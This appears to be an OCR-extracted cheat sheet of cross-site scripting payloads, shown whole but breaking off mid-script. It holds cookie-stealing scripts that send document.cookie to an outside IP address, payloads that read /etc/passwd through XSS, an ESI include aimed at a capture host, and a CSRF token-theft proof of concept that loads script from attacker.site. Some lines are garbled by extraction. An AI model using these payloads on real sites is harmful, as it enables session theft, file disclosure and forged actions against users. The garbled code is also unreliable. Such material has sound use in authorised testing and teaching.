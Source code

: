 	```jsx
	## Cookie stealing through xss
	<https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py>
	<https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md>
	<script>var i=newImage;i.src="http://172.30.5.46:8888/?"+document.cookie;</script>
	<img src=x onerror=this.src='<http://172.30.5.46:8888/?'+document.cookie;>>
	<img src=x onerror="this.src='<http://172.30.5.46:8888/?'+document.cookie>; this.removeAttribute('onerror');">
	```
	
- XSS to RCE
	
	[https://swarm.ptsecurity.com/researching-open-source-apps-for-xss-to-rce-flaws/](https://swarm.ptsecurity.com/researching-open-source-apps-for-xss-to-rce-flaws/)
	
- XSS to LFI
	
	```jsx
	<script%00>
	 x=new XMLHttpRequest;
	 x.onload=function(){document.write(this.responseText)};
	 x.open("GET","file:///etc/passwd");x.send();
	 </script%00>
	
	<script>	x=new XMLHttpRequest;	x.onload=function(){ document.write(this.responseText)	};	x.open("GET","file:///etc/passwd");	x.send();</script>
	
	<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
	<script>document.write('<iframe src=file:///etc/passwd></iframe>');</scrip>
	```
	
- XSS to SSRF
	
	```python
	<esi:include src="<http://yoursite.com/capture>" />
	```
	
- XSS to CSRF
	
	- XSS to CSRF [ [https://link.medium.com/ct4S2BiJYwb](https://link.medium.com/ct4S2BiJYwb) ]
		
		POC : `[<https://vulnerable.site/profile.php?msg=><](<https://vulnerable.site/profile.php?msg=><script src=’https://attacker.site/attacker/script.js’></script>`
		
		```jsx
		var csrfProtectedPage ='<https://vulnerable.site/profile.php>'
		var csrfProtectedForm ='form'
		//get valid token for current request
		var html = get(csrfProtectedPage);
			document.getElementbyId(csrfProtectedForm);
		var token = form.token.value;
		
		//Build with valid token
		document.body.innerHTML+='form id="myform"action="+csrfProtectedPage+"method="POST">'+'<input id="password"name="name"value="hacked">'+'</form>';
		